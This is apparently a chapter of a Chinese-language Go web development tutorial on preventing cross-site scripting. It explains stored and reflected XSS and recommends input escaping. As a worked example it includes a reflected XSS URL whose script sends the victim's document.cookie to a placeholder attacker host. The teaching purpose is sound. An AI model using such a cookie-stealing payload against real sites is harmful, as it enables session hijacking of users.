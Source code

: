 # 9.3 避免XSS攻擊
隨著互聯網技術的發展，現在的Web應用都含有大量的動態內容以提高用戶體驗。所謂動態內容，就是應用程序能夠根據用戶環境和用戶請求，輸出相應的內容。動態站點會受到一種名為“跨站腳本攻擊”（Cross Site Scripting, 安全專家們通常將其縮寫成 XSS）的威脅，而靜態站點則完全不受其影響。

## 什麼是XSS
XSS攻擊：跨站腳本攻擊(Cross-Site Scripting)，為了不和層疊樣式表(Cascading Style Sheets, CSS)的縮寫混淆，故將跨站腳本攻擊縮寫為XSS。XSS是一種常見的web安全漏洞，它允許攻擊者將惡意代碼植入到提供給其它用戶使用的頁面中。不同於大多數攻擊(一般只涉及攻擊者和受害者)，XSS涉及到三方，即攻擊者、客戶端與Web應用。XSS的攻擊目標是為了盜取存儲在客戶端的cookie或者其他網站用於識別客戶端身份的敏感信息。一旦獲取到合法用戶的信息後，攻擊者甚至可以假冒合法用戶與網站進行交互。

XSS通常可以分為兩大類：一類是存儲型XSS，主要出現在讓用戶輸入數據，供其他瀏覽此頁的用戶進行查看的地方，包括留言、評論、博客日誌和各類表單等。應用程序從數據庫中查詢數據，在頁面中顯示出來，攻擊者在相關頁面輸入惡意的腳本數據後，用戶瀏覽此類頁面時就可能受到攻擊。這個流程簡單可以描述為:惡意用戶的Html輸入Web程序->進入數據庫->Web程序->用戶瀏覽器。另一類是反射型XSS，主要做法是將腳本代碼加入URL地址的請求參數裡，請求參數進入程序後在頁面直接輸出，用戶點擊類似的惡意鏈接就可能受到攻擊。

XSS目前主要的手段和目的如下：

- 盜用cookie，獲取敏感信息。
- 利用植入Flash，通過crossdomain權限設置進一步獲取更高權限；或者利用Java等得到類似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻擊者）用戶的身份執行一些管理動作，或執行一些如:發微博、加好友、發私信等常規操作，前段時間新浪微博就遭遇過一次XSS。
- 利用可被攻擊的域受到其他域信任的特點，以受信任來源的身份請求一些平時不允許的操作，如進行不當的投票活動。
- 在訪問量極大的一些頁面上的XSS可以攻擊一些小型網站，實現DDoS攻擊的效果

## XSS的原理
Web應用未對用戶提交請求的數據做充分的檢查過濾，允許用戶在提交的數據中摻入HTML代碼(最主要的是“>”、“<”)，並將未經轉義的惡意代碼輸出到第三方用戶的瀏覽器解釋執行，是導致XSS漏洞的產生原因。

接下來以反射性XSS舉例說明XSS的過程：現在有一個網站，根據參數輸出用戶的名稱，例如訪問url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下信息：

	hello astaxie

如果我們傳遞這樣的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了XSS漏洞。那麼惡意用戶是如何盜取Cookie的呢？與上類似，如下這樣的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的cookie發送到指定的站點：www.xxx.com。你也許會說，這樣的URL一看就有問題，怎麼會有人點擊？，是的，這類的URL會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的url通過某些途徑傳播開來，不明真相的用戶一旦點擊了這樣的url，相應cookie數據就會被髮送事先設定好的站點，這樣子就盜得了用戶的cookie信息，然後就可以利用Websleuth之類的工具來檢查是否能盜取那個用戶的賬戶。

更加詳細的關於XSS的分析大家可以參考這篇叫做《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防XSS
答案很簡單，堅決不要相信用戶的任何輸入，並過濾掉輸入中的所有特殊字符。這樣就能消滅絕大部分的XSS攻擊。

目前防禦XSS主要有如下幾種方式：

- 過濾特殊字符

	避免XSS的方法之一主要是將用戶所提供的內容進行過濾，Go語言提供了HTML的過濾函數：

	text/template包下面的HTMLEscapeString、JSEscapeString等函數

- 使用HTTP頭指定類型

	`w.Header().Set("Content-Type","text/javascript")`

	這樣就可以讓瀏覽器解析javascript代碼，而不會是html輸出。


## 總結
XSS漏洞是相當有危害的，在開發Web應用的時候，一定要記住過濾數據，特別是在輸出到客戶端之前，這是現在行之有效的防止XSS的手段。

## links
   * [目錄](<preface.md>)
   * 上一節: [確保輸入過濾](<09.2.md>)
   * 下一節: [避免SQL注入](<09.4.md>)
